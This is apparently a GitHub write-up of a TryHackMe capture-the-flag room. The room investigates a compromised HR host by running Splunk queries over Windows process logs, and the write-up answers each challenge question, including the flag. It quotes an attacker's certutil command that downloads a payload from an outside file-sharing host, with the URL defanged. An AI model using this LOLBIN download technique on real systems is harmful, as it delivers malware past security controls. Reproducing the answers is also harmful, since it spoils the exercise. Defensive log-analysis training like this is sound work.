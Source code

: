 # Benign-THM-Challenge
Write-Up: Suspicious Process Execution Investigation

# Challenge room to investigate a compromised host.

## Objective
Learn more about Splunk and how to investigate the logs.
 Investigate a potential security incident flagged by an IDS, which identified suspicious process execution on an HR department host. 
 Initial findings suggested unauthorized network information gathering and scheduled task execution.

### Skills Learned

- Log Parsing and Analysis: I become familiar with using Splunk to search and filter logs based on specific fields like UserName, ProcessName, and CommandLine, helping to identify unusual or suspicious activity
- Searching for Rare Events: I practice using Splunk queries like rare values to identify outliers or anomalies, such as impersonation or abnormal process executions. This includes finding instances where common processes are being used in an unusual manner, like the use of LOLBINs (Living Off the Land Binaries)
- Investigating Process Execution: I get hands-on experience with process execution analysis, including tracking down which processes were executed by specific users, which is critical for understanding how an attack unfolded
- Identifying Malicious Behavior: By analyzing suspicious activity such as downloads from third-party sites or the execution of potentially malicious payloads.
- Timeline Creation: Splunk help me create a timeline of events related to the attack, such as when a suspicious binary was downloaded, which is useful for both incident response and forensic investigations

### Tools Used

- Splunk

## Steps
Overview:

A host from the HR department was compromised, and suspicious activities were observed on the system. These activities included the execution of scheduled tasks, which confirmed the initial suspicion. The process execution logs were pulled using Event ID: 4688 and ingested into Splunk under the index win_eventlogs for further investigation.

The organization is divided into three departments:

```
IT Department: James, Moin, Katrina
HR Department: Haroon, Chris, Diana
Marketing Department: Bell, Amelia, Deepak

```

Questions & Answers:

**Question 1**: *How many logs are ingested from the month of March, 2022?*

To find the number of logs ingested from March 2022, change the date on the right top corner

Answer: 13,959 logs were ingested during the month of March 2022.

---

**Question 2:** Imposter Alert: There seems to be an imposter account observed in the logs. What is the name of that user?

To identify the imposter user, I searched for usernames not in the list of known users:

`index=win_eventlogs EventID=4688
NOT (UserName="James" OR UserName="Moin" OR UserName="Katrina" OR
UserName="Haroon" OR UserName="Chris" OR UserName="Diana" OR
UserName="Bell" OR UserName="Amelia" OR UserName="Deepak")
| stats count by UserName`

This returned the following suspicious usernames:

```
Amel1a
Chris.fort
Daina

```

Answer: The imposter user is Amel1a.

We can Also use this type of queries

This command returns a unique list of values for a specific field.
Useful when you want to see all distinct values for a field (e.g., unique usernames).
`index=win_eventlogs EventID=4688
| stats values(UserName)`
or
This command counts the occurrences of events grouped by a specific field
Useful when you need to know how many times a specific field (like a user) appears in the logs.
`index=win_eventlogs EventID=4688
| stats count by UserName`

---

**Question 3**: Which user from the HR department was observed running scheduled tasks?

I searched for the execution of the scheduled tasks utility, schtasks.exe, which is commonly used for automated task management.

`index=win_eventlogs EventID=4688
| search ProcessName="*schtasks.exe*"`

Answer: The user who ran scheduled tasks is Chris.fort from the HR department.

---

**Question 4**: Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?

Certutil.exe is a Windows command-line tool used for managing certificates, but it can be exploited by attackers to download malicious payloads. I found Haroon executing the following command:

`index=win_eventlogs EventID=4688
| search ProcessName="*Certutil.exe*"`

Answer: Haroon executed the command:
certutil.exe -urlcache -f -  hxxps[://]controlc[.]com/e4d11035 benign.exe

---

**Question 5**: To bypass the security controls, which system process (LOLBIN) was used to download a payload from the internet?

Answer: The system process used to bypass security controls was Certutil.exe, as it is a legitimate Windows process often overlooked by security systems.

---

**Question 6**: What was the date that this binary was executed by the infected host?

The date of execution was found just below the command line in the logs.

Answer: 2022-03-04.

---

**Question 7:** Which third-party site was accessed to download the malicious payload?

From the command line, I identified the third-party site used for downloading the payload.

Answer:  controlc[.]com

---

**Question 8:** What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?

The filename was included in the command line executed by Haroon.

Answer: The file saved was benign.exe.

---

**Question 9**: The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?

To find the pattern, I examined the URL provided in the command line, which pointed to the downloaded file.

Answer: The malicious content pattern is: THM{KJ&*H^B0}.

---

**Question 10:** What is the URL that the infected host connected to?

The URL was clearly visible in the executed command line.

Answer: The URL used to download the malicious payload is:
hxxps[://]controlc[.]com/e4d11035

---

**Conclusion**:

*The investigation involved identifying suspicious activities in the HR department's compromised host. By reviewing the logs and searching for specific execution patterns (e.g., use of Certutil.exe and schtasks.exe), we were able to determine the presence of a malicious user and the payload involved. The exploitation utilized a legitimate system tool to bypass security controls and download a payload from a third-party server.*

*Ref 1: Network Diagram*
